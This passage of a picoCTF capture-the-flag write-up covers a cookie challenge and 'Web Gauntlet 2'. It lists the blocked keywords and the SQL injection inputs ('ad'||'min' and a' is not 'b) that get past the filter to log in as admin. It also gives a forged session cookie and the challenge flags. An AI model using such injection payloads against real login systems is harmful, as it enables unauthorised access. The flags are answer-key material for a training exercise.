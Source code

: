 ![image](https://hackmd.io/_uploads/Skgg04jqJg.png)

`session = eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z7290w.GawqsHDVAB5fqmDen1e2E_ZQ1G4`

![image](https://hackmd.io/_uploads/BkqrREiq1e.png)

`Flag: picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}`

### Web Gauntlet 2
`Description`
```
This website looks familiar... Log in as admin Site: http://mercury.picoctf.net:57359/ Filter: http://mercury.picoctf.net:57359/filter.php
```

`filter.php`
```
Filters: or and true false union like = > < ; -- /* */ admin
```

In this challenge, we need to log in as an `admin`, but the `filter` is quite strict. To bypass it, I used string concatenation in the `username` field, while the `password` field determines whether the login succeeds or fails.
```
username: ad'||'min => query: SELECT username, password FROM users WHERE username='ad'||'min' AND password='' => username: admin
```
```
password: a' is not 'b => query: SELECT username, password FROM users WHERE username='ad'||'min' AND password='a' is not 'b' 
=> username: admin
password: true
```

![image](https://hackmd.io/_uploads/HJ0_8Pnq1e.png)

and after check `filter.php` in `burpsuite`

![image](https://hackmd.io/_uploads/B15AUP25Jg.png)

`Flag: picoCTF{0n3_m0r3_t1m3_d5a91d8c2ae4ce567c2e8b8453305565}`

### Some Assembly Required 1
`Description`
```
http://mercury.picoctf.net:40226/index.html
```

`G82XCw5CX3.js`
```python
```